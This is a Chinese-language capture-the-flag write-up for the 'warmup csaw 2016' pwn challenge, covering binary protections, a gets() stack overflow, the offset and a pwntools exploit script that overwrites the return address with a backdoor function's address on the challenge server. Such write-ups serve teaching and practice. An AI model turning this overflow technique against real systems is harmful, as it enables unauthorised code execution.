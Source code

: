 ```yaml
---
author: 
  name: Zephyr
title: warmup csaw 2016
date: 2022-3-19 20:12:04
permalink: /pages/1e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![jhdaasw](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jhdaasw.png)

存在溢出函数`gets`，另外通过查找函数表发现后门函数`sub_40060D`

![fasecxz](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/fasecxz.png)

## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过`gets`函数溢出将返回地址修改为该值即可获得`flag`。

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```